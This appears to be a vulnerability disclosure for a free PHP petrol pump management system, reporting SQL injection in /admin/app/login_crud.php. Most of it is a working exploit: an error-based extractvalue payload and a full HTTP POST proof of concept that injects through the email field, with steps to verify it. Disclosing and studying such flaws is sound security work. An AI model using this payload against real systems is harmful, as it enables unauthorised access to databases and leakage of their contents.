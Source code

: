 # SQLi-4

# Vulnerability Description

The Petrol pump management System in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: hjhctzz
2. vendors: [https://codeastro.com/membership-management-system-in-php-with-source-code/](https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html);
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /admin/app/login_crud.php

[+] Payload:

```http
'and/**/extractvalue(1,concat(char(126),user()))and'
```

POC：

```http
POST http://192.168.10.108/fuelflow/admin/app/login_crud.php HTTP/1.1
Host: 192.168.10.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: http://192.168.10.108
Connection: close
Referer: http://192.168.10.108/fuelflow/index.php
Cookie: PHPSESSID=p5a1pv4juicgdu3qcpo85v2h4t
Upgrade-Insecure-Requests: 1

email=mayuri.infospace%40gmail.com'and/**/extractvalue(1,concat(char(126),user()))and'&password=admin1&submit=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​![image-20240227223654-j5aegt4](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/0e68ddf2-2eac-47e0-bd4a-2cea9fc46b55)

